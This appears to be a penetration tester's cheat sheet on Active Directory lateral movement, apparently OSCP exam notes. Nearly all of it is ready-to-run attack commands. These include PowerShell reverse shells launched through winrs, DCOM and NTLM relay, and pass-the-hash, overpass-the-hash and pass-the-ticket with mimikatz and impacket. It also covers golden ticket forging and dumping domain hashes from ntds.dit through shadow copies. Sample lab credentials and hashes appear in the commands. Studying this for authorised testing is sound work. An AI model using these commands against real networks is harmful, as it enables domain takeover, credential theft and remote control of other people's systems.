 # 🏹 AD Lateral Movement

## Winrs

```shell
# add the base64-encoded PowerShell reverse shell
winrs -r:files04 -u:jen -p:Nexus123!  "powershell -nop -w hidden -e <encoded_rs>"
```

## PsExec.exe

**Requirements**:

- The user that authenticates to the target machine needs to be part of the Administrators local group.
- The _ADMIN$_ share must be available (enabled by default).
- File and printer sharing has to be turned on (on by default)

```shell
./PsExec64.exe -i \\FILES04 -u corp\jen -p Nexus123! cmd
```

## Evil-Winrm

```shell
# using password
evil-winrm -i <ip>/<domain> -u <user> -p <pass>
evil-winrm -i <ip>/<domain> -u <user> -p <pass> -S
# using hash
evil-winrm -i <ip>/<domain> -u <user> -H <hash>
# using key
evil-winrm -i <ip>/<domain> -c cert.pem -k key.pem -S

# once connected, upload or download files
upload <file>
download <file>

# load PS scripts on connect
evil-winrm -i <ip>/<domain> -u <user> -p <pass> -s <script.ps1>
```

## Impacket-\*execs

**Requirements**:

- An SMB connection through the firewall (commonly port 445).
- The Windows File and Printer Sharing feature must be enabled.
- The admin share called **ADMIN$** must be available.

```shell
# psexec
impacket-psexec -hashes <hash:hash> <domain>/<user>@<IP> <command> 
# smbexec
impacket-smbexec -hashes <hash:hash> <domain>/<user>@<IP> <command> 
# wmiexec
impacket-wmiexec -hashes <hash:hash> <domain>/<user>@<IP> <command> 
# atexec
impacket-atexec -hashes <hash:hash> <domain>/<user>@<IP> <command>

# if you only have the NTLM hash portion, use :<ntlm_hash>
```
## Pass the Hash

```impacket-wmiexec -hashes :2892D26CDF84D7A70E2EB3B9F05C425E Administrator@<RHOST>```

## Overpass the Hash

> When you have NTLM hashes but need Kerberos access.

```shell
# get hashes with mimikatz
privilege::debug
sekurlsa::logonpasswords
# generate Kerberos ticket
sekurlsa::pth /user:Administrator /domain:<domain> /ntlm:<hash>
# verify Kerberos ticket
klist

# access the resource
dir \\<target>\C$

# linux
impacket-getTGT <domain>/<user> -hashes ":<hash>"
export KRB5CCNAME=<ticket>.ccache

# access the machine
impacket-psexec <domain>/<user>@<ip> -k -no-pass
```

## Pass the Ticket

> When you have Kerberos tickets but not the NTLM hash.

```shell
# export tickets with mimikatz
privilege::debug
sekurlsa::tickets /export
# import it as the current user
kerberos::ptt [0;76126]-2-0-40e10000-Administrator@krbtgt-<rhost>.LOCAL.kirbi
# verify Kerberos ticket
klist

# access the resource
dir \\<target>\admin$
```

## DCOM

```shell
$dcom = [System.Activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application.1","192.168.50.73"))

$dcom.Document.ActiveView.ExecuteShellCommand("cmd",$null,"/c calc","7")

$dcom.Document.ActiveView.ExecuteShellCommand("powershell",$null,"powershell -nop -w hidden -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGU...
AC4ARgBsAHUAcwBoACgAKQB9ADsAJABjAGwAaQBlAG4AdAAuAEMAbABvAHMAZQAoACkA","7")
```

## Golden Ticket

Is a forged Kerberos Ticket Granting Ticket (TGT) that allows an attacker to gain complete control of the Active Directory domain because it grants them the ability to request tickets for any service.

```mermaid
sequenceDiagram
    participant A as Attacker
    participant KDC as KDC
    participant S as Service

    Note over A: Attacker obtains KRBTGT key (offline)
    A->>A: Forge Golden Ticket (TGT) with custom claims
    A->>KDC: TGS-REQ (with forged TGT)
    KDC-->>A: TGS-REP (service ticket)
    A->>S: AP-REQ (with forged service ticket and authenticator)
    S-->>A: AP-REP (access granted)
```

```shell
# Windows
# delete existing tickets
kerberos::purge

# get domain SID
whoami /user

# forge the ticket
kerberos::golden /user:jen /domain:corp.com /sid:S-1-5-21-1987370270-658905905-1781884369 /krbtgt:1693c6cefafffc7af11ef34d1c788f47 /ptt

# spawn a cmd as the new user
misc::cmd
# or launch psexec.exe
PsExec.exe \\dc1 cmd.exe

# Linux
impacket-ticketer -aesKey <key> -domain-sid <sid> -domain <domain> -extra-sid <parent_sid> <user> -extra-pac

# import the TGT
export KRB5CCNAME=<user>.ccache

# access the machine
impacket-psexec -k -no-pass <domain>/<username>@<hostname>.<domain>
```

To get the parent domain (if needed), use it in `-extra-sid`:

```shell
.\mimikatz.exe "lsadump::trust /patch" "exit"
```

## Shadow Copies

**Requirements**:

- Admins or SYSTEM privs
- Access to a DC (ntds.dit is only on DC)
- Regular user with **SeBackupPrivilege** (Can use robocopy to get the file from the copy)

### vshadow

```shell
# execute vshadow and look for the path
vshadow.exe -nw -p C:
# copy from the path
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\windows\ntds\ntds.dit c:\ntds.dit.bak
# get system
reg.exe save hklm\system c:\system.bak
# use secretsdump to get the hashes
impacket-secretsdump -ntds ntds.dit.bak -system system.bak LOCAL
```

### diskshadow

First, set up a **shadowcopy.txt** instructions file in which you create a volume with an alias as seen [here](https://pentestlab.blog/tag/diskshadow/):

```shell
set context persistent nowriters
add volume c: alias hack
create
expose %hack% z:
```

Upload the file and execute `diskshadow`

```shell
# execute diskshadow using the file
diskshadow.exe /s .\test.txt
# copy or use robocopy if regular user witn backup perms
robocopy /b z:\Windows\NTDS\ . ntds.dit 
# get system
reg save HKLM\system system
# use secretsdump to get the hashes
impacket-secretsdump -ntds ntds.dit -system system LOCAL
```

## NTLM Relay

!!! warning ""
    Poisoning and Spoofing is not allowed on the OSCP exam

!!! info
    SMB signing on the target system must be **disabled**

```shell
# check whether the SMB signing is enabled on the target system
nxc smb <target_host>

# capture and forward the request to target host and execute a command on it
impacket-ntlmrelayx --no-http-server -smb2support -t <target_host> -c "powershell -enc JABjAGwAa...AYwBsAGkAZQBuAHQALgBDAGwAbwBzAGUAKAApAA=="

# dump target hashes without executing command
impacket-ntlmrelayx --no-http-server -smb2support -t <target_host>
```
